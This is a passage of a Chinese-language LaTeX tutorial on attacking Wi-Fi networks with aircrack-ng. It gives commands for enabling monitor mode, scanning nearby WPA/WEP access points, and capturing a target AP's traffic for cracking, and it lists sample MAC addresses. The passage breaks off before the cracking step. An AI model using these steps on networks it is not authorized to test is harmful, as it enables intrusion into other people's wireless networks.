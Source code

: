 \documentclass{book}
\begin{document}
\paragraph{启动无线网卡的监控模式}
启动无线网卡的监控模式如下：

\begin{lstlisting}[language=Bash]
sudo airmon-ng start wlan0

sudo airodump-ng -a --encrypt WPA mon0
\end{lstlisting}

无线网卡开始抓包并分析附近有那些热点(-a)，
并且仅显示加密方式为WPA或者WPA2的热点(-- encrypt WPA) – 上图只需要看懂这些参数：
BSSID指一个热点（PC or Phone），你可以理解为它的ID，PWR指信号强度，越接近0越好，
但是不能等于0,0表示断线，后面将会用到，CH频道，这个也会用到，ENC加密方式，
仅显示了PSK/PSK2方式，ESSIS这个就是我们平常看到的热点名称辣

\paragraph{查看无线AP}在终端中输入：

\begin{lstlisting}[language=Bash]
sudo airodump-ng mon0
\end{lstlisting}

（mon0 是启动监控模式后无线网的端口）
查看有哪些采用wep加密的AP在线，然后按 ctrl+c 中止，不要关闭终端。

\paragraph{抓包}
打开另一个终端，输入：

\begin{lstlisting}[language=Bash]
sudo airodump-ng --channel 6 --bssid AP’s MAC -w wep mon0

sudo airodump-ng --bssid 28:2C:B2:E4:F5:5A -c 13 -w 619 --ignore-negative-one mon0
\end{lstlisting}

(-c后面跟着的6是要破解的AP工作频道，–bissid后面跟着的AP’sMAC是要欲破解AP的MAC地址，
-w后面跟着wep的是抓下来的数据包DATA保存的文件名，具体情况根据步骤2里面的在线AP更改频道和MAC地址，
DATA保存的文件名可随便命名）

本机Mac：00:25:d3:9a:b6:01

路由Mac：C0:61:18:9A:76:D2

\paragraph{与AP建立虚拟连接}
再打开一个新终端，输入：
\end{document}
